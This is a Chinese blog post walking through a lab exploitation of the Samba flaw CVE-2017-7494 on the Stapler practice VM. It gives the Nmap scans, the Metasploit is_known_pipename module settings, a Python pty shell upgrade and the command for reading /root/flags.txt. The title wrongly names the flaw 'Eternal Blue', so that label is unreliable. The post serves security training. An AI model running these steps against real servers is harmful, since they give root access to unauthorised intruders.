


# Defense：SMB 协议漏洞利用与控制 CVE-2017-7494("永恒之蓝")攻防实验 - 怒吼的萝卜 - 博客园

> 原文：[`www.cnblogs.com/nhdlb/p/14186051.html`](https://www.cnblogs.com/nhdlb/p/14186051.html)

### **漏洞描述**

**1\. 服务器打开了文件/打印机共享端口 445，让其能够在公网上访问**

**2\. 共享文件拥有写入权限**

**3\. 恶意攻击者需猜解 Samba 服务端共享目录的物理路径**

**Samba 是在 Linux 和 UNIX 系统上实现 SMB 协议的一个软件。2017 年 5 月 24 日 Samba 发布了 4.6.4 版本，修复了一个严重的远程代码执行漏洞，漏洞编号 CVE-2017-7494，漏洞影响了 Samba 3.5.0 和包括 4.6.4/4.5.10/4.4.14 中间的版本。攻击者可以利用客户端将指定库文件上传到具有可写权限的共享目录，使服务器加载并执行它。只需要一个可写入的 Samba 用户权限就可以利用该漏洞以 root 身份执行任意代码。**

### **实验环境**

**[`pan.baidu.com/s/1AMd3BwbNjibv0TIcJjAFMw `](https://pan.baidu.com/s/1AMd3BwbNjibv0TIcJjAFMw%20)    靶机环境**

**靶机环境：Stapler.zip 中包含虚拟机导入文件，请使用 virtual-box 加载启动。环境中有 CVE-2017-7494 相应的漏洞。（网卡模式设置为 NAT 模式或 Bridge【桥接】模式--和攻击环境设置一样的模式即可）**

**攻击环境：Kali-linxu，使用 virtual-box 启动。（网卡模式设置为 NAT 模式或 Bridge【桥接】模式--和靶机环境设置一样的模式即可）**

**实验目的：读取靶机环境中的/root/flags.txt 文件**

**说明：靶机环境和攻击环境为两台虚拟机，启动并保证两台机器互联互通。**

**实验步骤**

**一、 Ka li Linux 内通过 Nmap 或 netdiscover 扫描同网段其他主机**

```
#假设网段为 192.168.1.0
sudo nmap -sP -PI -PT 192.168.1.0/24
```

 

 **二、使用 Nmap 工具扫描目标 IP 地址，发现其开放端口**

```
#扫描目标 IP 地址
nmap -sV 192.168.60.50
```

 

### Kali 启动**metasploit**服务

** [kali linux](http://www.kali.org.cn/) 2.0 本身已内置[metasploit](http://www.kali.org.cn/forum-61-1.html)，kali 2.0 已经没有 metasploit 这个服务了，所以 service metasploit start 的方式不起作用。**

**kali 2.0 中启动带数据库支持的[msf](http://www.kali.org.cn/forum-61-1.html)方式**

```
#首先启动 postgresql 数据库 /etc/init.d/postgresql start;
或者 
service postgresql start;

#初始化 MSF 数据库(关键步骤!)
msfdb init;

#运行 msfconsole
msfconsole;

#在 msf 中查看数据库连接状态
db_status

#将 postgresql 数据库设置开机自启
update-rc.d postgresql enable
```

### 漏洞利用过程

****在 msfconsole 使用 **search **命令**搜索 CVE-2017-7494 相关攻击模块**

```
#搜索 CVE-2017-7494 攻击模块
search 2017-7494
```



**可以看到 exploit/linux/samba/is_known_pipename 攻击模块**

### **加载攻击模块**

```
#加载攻击模块
use exploit/linux/samba/is_known_pipename
```


### **查看攻击模块中需要配置的参数**

```
#查看需要设置的参数
show options
```


**RHOST 代表要攻击的目标 IP 地址**

**RPORT 代表攻击目标的端口号**

### **设置参数进行攻击**

```
#设置攻击目标的 IP
set rhost 192.168.60.50 #设置攻击目标的端口
set rport 445

#开始攻击
exploit
或
run
```


****

### **获取命令行交互窗口**

**使用 python 脚本获得交互命令行窗口**

```
#获取命令行交互窗口
python -c "import pty; pty.spawn('/bin/bash')" 或
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### **获取目标文件**

```
#获取查看目标文件 cat /root/flags.txt
```



**完成攻击实验测试！！**